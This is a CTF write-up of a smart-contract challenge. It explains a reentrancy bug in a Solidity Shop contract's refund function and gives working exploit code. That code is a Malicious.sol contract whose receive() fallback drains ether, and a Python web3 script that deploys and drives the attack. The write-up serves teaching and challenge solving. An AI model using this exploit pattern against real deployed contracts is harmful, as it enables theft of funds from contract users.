

<br />


## 📃 Table of contents
- [📚 Resources](#resources)
- [🧐 Overview](#resources)
- [📝 Challenge description](#challenge-description)
- [🔎 Analysis](#analysis)
    - [Shop.sol](#shopsol)
    - [Refund](#refund)
    - [Key Elements of Reentrancy Vulnerability](#key-elements-of-reentrancy-vulnerability)
    - [Vulnerability Explanation](#vulnerability-explanation)
    - [How Reentrancy Can Be Exploited ](#how-reentrancy-can-be-exploited)
    - [Example Attack Scenario](#example-attack-scenario)
- [💡 Solving](#solving)
    - [Malicious.sol](#malicioussol)
    - [Breakdown of the Malicious Contract](#breakdown-of-the-malicious-contract)
    - [Reentrancy Exploit Flow](#reentrancy-exploit-flow)
- [🚩 Solution](#solution)
- [👨‍💻 Author](#author)

<br />
<br />

## Resources
- **Reentrancy**:
    - Reentrancy After Istanbul: https://blog.openzeppelin.com/reentrancy-after-istanbul
    - The Ultimate Guide To Reentrancy: https://medium.com/immunefi/the-ultimate-guide-to-reentrancy-19526f105ac

<br />
<br />

## Overview  

The challenge involve a Ethereum smart contracts: Shop.sol. Our objective is to exploit a vulnerability in the [Shop](./contract/Shop.sol) contract using a [Malicious](./contract/Malicious.sol) contract and accompanying Python scripts to interact with the Ethereum blockchain. This writeup provides a step-by-step guide on how the exploit is conducted, along with insights into the underlying mechanics.

<br />
<br />

## Challenge description  

The Shop contract simulates a shop where items can be purchased and refunded. There is a hidden challenge condition that is considered solved if a specific item is bought. Our goal is to manipulate the Shop contract in a way that allows us to buy the expensive item (costing 1337 ether) without initially possessing enough ether in our account.

<br />
<br />

## Annalysis

When challenge is initiated through the description's endpoint `nc blockchain.n00bzUnit3d.xyz 39999` we are given the given values

```bash
contract address: 0xA38f1339D5807d04c1C6beB4c3fa0437Aa937f67
rpc-url: http://64.23.154.146:48217
Wallet private-key: 0x63c3173c9b7a1e975202c1a386cd22610a28a8088828553fec51c93ae7bf3a1f
Wallet address: 0x78367589e5Dd25f375369865E0B70D9D6BAB6306
Secret: 851c48a67005d02ccd81db0f33ffc7923cf6563979a5180bc902d2b894b9abd8
```

where:
- **contract address**: The address of the Shop.sol contract deployed
- **rpc-url**: Where we will be able to communicate and send transactions to the challenge's blockchain
- **Wallet private-key**: Our personal wallet for the challenge
- **Wallet address**: The *public* address of our wallet
- **secret**: This will be needed to recup our flag once the challenge is finished

<br />

### Shop.sol
We are also given the source code of the `Shop` smart contract (the *contract address* spoke previously)

The shop is made of 4 functions,
- `reset`: Which just set all of our items bought to zero.
- `buy`: Where we we can buy items considering some ETH we don't have (that would be too easy ofc).
- `refund`: Where we can get back our ETH considering having some items bought previously.
- `isChallSolved`: Our favorite one <3

when looking closely at `refund` we can clearly see the ***Reentrancy*** vulnerability 

<br />
<br />

### Refund 
```solidity
    function refund(uint item, uint quantity) public payable {
        require(0 <= item && item <= 3, "Item does not exist!");
        require(0 < quantity && quantity <= 10, "Cannot refund more than 10 at once!");
        require(bought[item] > 0, "You do not have that item!");
        require(bought[item] >= quantity, "Quantity is greater than amount!");
        msg.sender.call.value((cost[item] * quantity))("");
        bought[item] -= quantity;
    }
```
indeed the problem is that this function is sending ether back to the sender BEFORE updating its new balance. Actually if that would be a normale user => Externally owned account (EOA) that could be no problem. But what if the `msg.sender` is a contract ? Lets review this closely.  

<br />
<br />

### Key Elements of Reentrancy Vulnerability

A reentrancy vulnerability typically occurs when a contract:

1. **Makes an External Call**: Transfers ether or calls an external contract.
2. **Updates State Variables After External Call**: Fails to update its internal state before making the external call.

<br />
<br />

### Vulnerability Explanation
1. State Checks Before External Call:

    - The function checks various conditions, such as item existence and quantity limits, before proceeding to the refund operation.
    - It verifies that the `msg.sender` has purchased the item and that the requested refund quantity does not exceed the purchased amount.  

2. External Call Without Proper State Update:

    - The line `msg.sender.call.value((cost[item] * quantity))("")` is a low-level call that sends ether to msg.sender.
    - This line allows the `msg.sender` (caller) to execute arbitrary code, such as another call to the `refund()` function.

3. State Update After External Call:

    - The line `bought[item] -= quantity;` updates the internal state to reflect the refunded items after the ether transfer.
    - This sequence creates a window of opportunity for reentrancy because the state (i.e., `bought[item]`) is updated after making the external call, which can be exploited.

<br />
<br />

### How Reentrancy Can Be Exploited  

A malicious contract can exploit this vulnerability by implementing a fallback function or `receive()` function that calls `refund()` again, before the `bought[item]` state is decremented. This allows the attacker to:

1. Receive the refund for the item.
2. Re-enter the `refund()` function to request another refund before the `bought[item]` state is decremented.
3. Repeat this process multiple times, draining ether from the contract.

<br />
<br />

### Example Attack Scenario
Here's a simplified sequence of how the attack can occur:

1. **Initial Purchase**: The attacker buys an item from the `Shop` contract.
2. **Refund Call**: The attacker calls `refund()` to get a refund for one item.
3. **Reentrancy**: During the refund call, the attacker's fallback function is triggered, calling `refund()` again before the `bought[item]` state is updated.
4. **Multiple Refunds**: The attacker repeats this process, draining the contract's ether balance while still having the items credited in their balance.

<br />
<br />

## Solving
So to help us take advantage of the *Reentrancy* vulnerability we need to create the smart contract that will call the shop contract.  
Let's go through the [Malicious.sol](./contract//Malicious.sol) contract in detail to understand how it exploits the Shop.sol contract's reentrancy vulnerability. We'll break down each part of the contract and explain its purpose.

### Malicious.sol
```solidity
// Malicious.sol
pragma solidity ^0.6.0;

import "./contract/Shop.sol";

contract Malicious {

    Shop public shop;
    address private _owner;

    constructor(address shopAddress) public {
        shop = Shop(shopAddress);
        _owner = msg.sender;
    }

    function buy(uint item, uint quantity) public payable {
        shop.buy.value(msg.value)(item, quantity);
    }

    function refund() public {
        shop.refund(0, 1);
    }

    function withdraw() public {
        require(msg.sender == _owner, "Not the owner");
        (bool sent, ) = _owner.call.value(address(this).balance)("");
        require(sent, "Failed to send Ether");
    }

    receive() external payable {
        if (address(shop).balance >= 5 ether) {
            shop.refund(0, 1);
        }
    }
}
```
### Breakdown of the Malicious Contract
1. **State Variables**
- `Shop public shop`:

    - This is a reference to the Shop contract, allowing the [Malicious](./contract/Malicious.sol) contract to interact with it.
    - It is set during the contract's construction, linking the [Malicious](./contract/Malicious.sol) contract to a specific instance of the Shop contract.  

- `address private _owner`:

    - This stores the address of the owner of the [Malicious](./contract/Malicious.sol) contract.
    - The `_owner` is set to the deployer's address in the constructor and is used to restrict access to certain functions.  
  
2. **Constructor**
```solidity
constructor(address shopAddress) public {
    shop = Shop(shopAddress);
    _owner = msg.sender;
}
```

- **Purpose**:

    - Initializes the [Malicious](./contract/Malicious.sol) contract by setting the shop reference to the Shop contract's address.
    - Sets the `_owner` to the address of the contract deployer (`msg.sender`).  

- **Operation**:

    - The constructor is called once when the contract is deployed.
    - It ensures that the contract is linked to the correct [Shop](./contract/Shop.sol) contract for exploitation.
  
3. `buy()` **Function**
```solidity
function buy(uint item, uint quantity) public payable {
    shop.buy.value(msg.value)(item, quantity);
}
```
- **Purpose**:

    - Facilitates the purchase of an item from the [Shop](./contract/Shop.sol) contract through the [Malicious](./contract/Malicious.sol) contract.
    - The `buy()` function is a proxy to the [Shop](./contract/Shop.sol) contract's `buy()` function.  

- **Operation**:

    - `msg.value` is forwarded to the [Shop](./contract/Shop.sol) contract to pay for the item.
    - The function does not validate parameters itself but relies on the [Shop](./contract/Shop.sol) contract to perform validation.

4. `refund()` **Function**
```solidity
function refund() public {
    shop.refund(0, 1);
}
```
- **Purpose**:

    - Initiates a refund request for one unit of item 0 from the [Shop](./contract/Shop.sol) contract.
    - This is the entry point for exploiting the reentrancy vulnerability in the [Shop](./contract/Shop.sol) contract.  

- **Operation**:

    - Calls the `refund()` function in the [Shop](./contract/Shop.sol) contract.
    - Triggers the reentrancy exploit by using the fallback function (`receive()`).

5. `withdraw()` **Function**
```solidity
function withdraw() public {
    require(msg.sender == _owner, "Not the owner");
    (bool sent, ) = _owner.call.value(address(this).balance)("");
    require(sent, "Failed to send Ether");
}
```
- **Purpose**:

- Allows the contract owner to withdraw all ether collected in the [Malicious](./contract/Malicious.sol) contract to their address.
- Ensures that only the owner can execute this function.

- **Operation**:

    - Checks if the caller is the contract owner using `require()`.
    - Transfers the entire contract balance to the owner's address using `call.value()`.
    - Uses the `require()` statement to ensure the transfer was successful.

6. `receive()` **Fallback Function**
```solidity
receive() external payable {
    if (address(shop).balance >= 5 ether) {
        shop.refund(0, 1);
    }
}
```
- **Purpose**:

    - This function is automatically called whenever the [Malicious](./contract/Malicious.sol) contract receives ether.
    - It is crucial for executing the reentrancy attack.  

- **Operation**:

    - The fallback function checks if the [Shop](./contract/Shop.sol) contract has at least 5 ether in balance.
    - If the balance is sufficient, it calls `refund()` on the [Shop](./contract/Shop.sol) contract again, initiating another round of the reentrancy exploit.
    - This allows the [Malicious](./contract/Malicious.sol) contract to repeatedly call `refund()` and drain ether from the [Shop](./contract/Shop.sol) contract.

<br>

### Reentrancy Exploit Flow
- **Initial Purchase**:

    - The attacker uses the `buy()` function to purchase `item 0` from the [Shop](./contract/Shop.sol) contract.  

- **Triggering Refund**:

    - The attacker calls the `refund()` function to start the refund process.
    - The [Shop](./contract/Shop.sol) contract sends ether to the Malicious contract, triggering the receive() function.  

- **Recursive Exploitation**:

    - The `receive()` function re-enters the Shop contract by calling `refund()` again.
    - This cycle continues as long as the conditions in `receive()` are met, allowing the `Malicious` contract to withdraw more ether than initially spent.

- **Withdrawal**:

    - After draining the [Shop](./contract/Shop.sol) contract, the attacker calls `withdraw()` to transfer the ether to their address. 

### Conclusion
The [Malicious](./contract/Malicious.sol) contract is designed to exploit the reentrancy vulnerability in the [Shop](./contract/Shop.sol) contract by recursively calling the `refund()` function. The key to the exploit is the `receive()` function, which enables multiple refunds before the bought state is updated in the [Shop](./contract/Shop.sol) contract, allowing the attacker to drain funds.


## Solution

```python
from web3 import Web3
from solcx import install_solc
from malicious import MaliciousContract
from shop import ShopContract

install_solc("0.6.0")


def get_balance(walletAddress: str):
    web3 = Web3(Web3.HTTPProvider(RPC))
    # Get the balance
    balance_wei = web3.eth.get_balance(walletAddress)
    # Convert balance to Ether
    balance_eth = web3.from_wei(balance_wei, 'ether')

    return balance_eth

def print_balances(walletAddress, maliciousAddress, shopAddress):
    print(f'My balance                  => {get_balance(walletAddress)} ETH')
    print(f'Malicious Contract balance  => {get_balance(maliciousAddress)} ETH')
    print(f'Shop Contract balance       => {get_balance(shopAddress)} ETH')


# Values given during challenge init
SHOP_ADDRESS = "0xA38f1339D5807d04c1C6beB4c3fa0437Aa937f67" # PUT YOURS
RPC = "http://64.23.154.146:48217" # PUT YOURS
PRIVATE_KEY = "0x63c3173c9b7a1e975202c1a386cd22610a28a8088828553fec51c93ae7bf3a1f" # PUT YOURS
WALLET_ADDRESS = "0x78367589e5Dd25f375369865E0B70D9D6BAB6306" # PUT YOURS
SECRET = "851c48a67005d02ccd81db0f33ffc7923cf6563979a5180bc902d2b894b9abd8" # PUT YOURS

if __name__ == '__main__':
    web3 = Web3(Web3.HTTPProvider(RPC))
    print(f'Balance: {get_balance(WALLET_ADDRESS)} ETH\n')

    Shop = ShopContract(WALLET_ADDRESS, PRIVATE_KEY, RPC)
    Malicious = MaliciousContract(WALLET_ADDRESS, PRIVATE_KEY, RPC)

    print("STEP 1: Deploying Malicious.sol...")

    Malicious.deploy(SHOP_ADDRESS)
    Shop.attach(SHOP_ADDRESS)

    print(f'Malicious contract deployed at: {Malicious.contractAddress}')
    print_balances(WALLET_ADDRESS, Malicious.contractAddress, Shop.contractAddress)
    print("\n\n\n")


    # We must do step this step 2 times cause for the first time 
    # we exploit the Reentrancy with only 4 ETH remaining, consuming all of our gas before the end
    for i in range(2):
        print(f"STEP {2+i+2}: Buy item 0 for 5 ether...")

        Malicious.buy(0, 1, web3.to_wei(5, 'ether'))

        print_balances(WALLET_ADDRESS, Malicious.contractAddress, Shop.contractAddress)
        print("\n\n\n")


        print(f"STEP {3+i+2}: Perform the Reentrancy exploit...")

        Malicious.refund()

        print_balances(WALLET_ADDRESS, Malicious.contractAddress, Shop.contractAddress)
        print("\n\n\n")


        print(f"STEP {4+i+2}: Withdraw ETH drained by our Malicious contract...")

        Malicious.withdraw()

        print_balances(WALLET_ADDRESS, Malicious.contractAddress, Shop.contractAddress)
        print("\n\n\n")


    print(f"STEP 8: Buy the flag...")

    Shop.buy(3, 1, web3.to_wei(1337, 'ether'))

    print_balances(WALLET_ADDRESS, Malicious.contractAddress, Shop.contractAddress)
    print("\n\n\n")


    # Check if the challenge is solved
    Shop.is_solved()

```

The solution script [main.py](./main.py) orchestrates an attack on the vulnerable smart contract [Shop](./contract/Shop.sol) by leveraging a malicious contract ([Malicious](./contract/Malicious.sol)). The attack takes advantage of the reentrancy vulnerability in the Shop contract, allowing the attacker to repeatedly drain funds by performing refunds in an unintended manner.

<br />
<br />

## Author

**Tondelier Jonathan**